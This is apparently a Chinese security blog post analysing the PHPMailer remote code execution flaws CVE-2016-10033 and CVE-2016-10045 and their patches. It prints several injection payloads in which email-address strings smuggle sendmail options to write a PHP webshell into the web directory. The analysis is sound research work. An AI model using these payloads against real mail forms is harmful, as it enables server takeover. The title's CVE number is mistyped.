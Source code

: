 ```yaml
---
title: phpmailer RCE漏洞分析
date: 2016-12-28 21:28:12
tags:
- php
- phpmailer
- cve
---
```



最近爆出来个CVE-2016-1003，国内人分析了两天发现ying

是国外十几年前发现的漏洞，分析了两天发现影响覆盖越来越严重，现在最新的patch也被绕过了，又爆了新的cve...

[朋友的博客](http://0x48.pw/2016/12/28/0x29/)

<!--more-->

# CVE-2016-1003 #

最早爆出来的版本是这样的

[http://seclists.org/oss-sec/2016/q4/750](http://seclists.org/oss-sec/2016/q4/750)

漏洞详情
[https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html](https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html)

环境，poc，exp相关
[https://github.com/opsxcq/exploit-CVE-2016-10033](https://github.com/opsxcq/exploit-CVE-2016-10033)

漏洞有一些基本要求：
1、php version < 5.2.0
2、phpmailer < 5.2.18
3、php 没有安装 pcre（no default）
4、safe_mode = false（default）

漏洞和这个差不多
[http://blog.knownsec.com/2016/12/roundcube-1-2-2-远程命令执行漏洞-漏洞分析/](http://blog.knownsec.com/2016/12/roundcube-1-2-2-远程命令执行漏洞-漏洞分析/)

其实问题主要是在mail函数的第五个参数过滤不严明，导致了命令执行。

追踪代码到这里

![image_1b52an7jpsoco77r7bsat15i9g.png-69.5kB][1]

图里应该能看到刚才的第四个条件，也就是safe_mode必须关闭。

然后我们去找这里的params

![image_1b52arked1oro2ss9ekg0r13l6t.png-90.8kB][2]

跟踪`$this->Sender`

![image_1b52ep27a1ij13241g851kvb1ua41a.png-88.8kB][3]

这里的Sender是address输入的，但经过了一次检验，我们可以看看这个函数
之类有个重要的switch

![image_1b52f3fhk1e181tem1v5ejj2qm51n.png-5.8kB][4]

跟踪到下面的noregex

![image_1b52f4frf1klcgsks6g1hvo1jmn24.png-26.8kB][5]

这里的cve-2016-10033就是绕过了这部分，但是我们仍需要使$patternselect为noregex，往上看看

![image_1b52fi2dae5t1fqg1sbe1iedfam2h.png-76.2kB][6]

这里的条件要求是php 没有安装 pcre，也就是上面的条件。

这样一来，我们就可以任意构造mail函数的第五个参数了，就可以随意开火了...

我们看看exp里的这部分请求
```
 name="email"\r\n\r\n\"vulnerables\\\" -OQueueDirectory=/tmp -X/www/backdoor.php server\" @test.com\r\n
```

这里是利用了sendmail写入log的方式，把log写入了web目录下，成功写入了一个webshell

# cve-10045 and bypass pcre正则表达式 #

仔细思考上面流程，有个关键的问题就是：
![image_1b52m2pqb1lbcovj1ldl1rb81tnp2u.png-186.7kB][7]

如果我们能够直接绕过下面的大段正则，我们就可以简化上面的漏洞利用条件，改为
```
phpmailer < 5.2.20 (0day)
php safe_mode = false
```

那么问题来了，怎么分析复杂的正则表达式
[https://www.leavesongs.com/PENETRATION/how-to-analyze-long-regex.html](https://www.leavesongs.com/PENETRATION/how-to-analyze-long-regex.html)

还有好用的正则表达式分析引擎
[https://regex101.com](https://regex101.com)

新的cve提交的是这个payload
```
\"attacker\\' -oQ/tmp/ -X%s/phpcode.php  some\"@email.com
```

我的朋友Hcamael研究了两种
```
a. -OQueueDirectory=/tmp/. -X/tmp/shell.php @a.com
() -OQueueDirectory=/tmp/. -X/tmp/shell.php @a.com
```

github上的exp也修改了新的payload
```
vulnerables\" -OQueueDirectory=/tmp -X/www/backdoor.php server" @test.com
```

还有p神发的
```
a( -X/home/www/backdoor.php -OQueueDirectory=/tmp )@qq.com
“ -X/home/www/backdoor.php -OQueueDirectory=/tmp “@qq.com
```

# phpmailer的修复方式 #

在今天爆出新的10045 cve后，phpmailer更新了新的patch
![image_1b52nsj9b6kmuqn1oab99j1q3j3b.png-97.6kB][8]

这里加入了判断方式，判断过滤过后和过滤前的字符串是否相等。

后来我发现，作者又更新了新的patch，但看聊天记录来看，作者被迫放弃了一部分正常功能，所以怎么修复还需要等等看

[https://github.com/PHPMailer/PHPMailer/pull/930](https://github.com/PHPMailer/PHPMailer/pull/930)

主要问题`escapeshellarg`和`escapeshellcmd`一起处理会出现新的问题，具体可以看我朋友的博客分析

[http://0x48.pw/2016/12/28/0x29/#phpmailer_5-2-19_RCE](http://0x48.pw/2016/12/28/0x29/#phpmailer_5-2-19_RCE)

虽然这个模块在多个cms都有用到，但是在已知的部分cms中，这部分都做了部分处理或者是印象范围较小，危害仍然有待考证


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/nzvltpfdjyjw0tjfpnxv1j4p/image_1b52an7jpsoco77r7bsat15i9g.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/g72ud34egto723vnsrtxhykt/image_1b52arked1oro2ss9ekg0r13l6t.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/e9y6kzjlgikcv3w1hpm1p7bd/image_1b52ep27a1ij13241g851kvb1ua41a.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/7s0ledhbnfhtu6kla79a8764/image_1b52f3fhk1e181tem1v5ejj2qm51n.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/8em0k0svym31zdcprcywj69s/image_1b52f4frf1klcgsks6g1hvo1jmn24.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/afp452d2iwqhrnw3mq3qteji/image_1b52fi2dae5t1fqg1sbe1iedfam2h.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/bjk8orhggrsc6sddvewqp87l/image_1b52m2pqb1lbcovj1ldl1rb81tnp2u.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/z7qs00dd3qkot6egpladntwk/image_1b52nsj9b6kmuqn1oab99j1q3j3b.png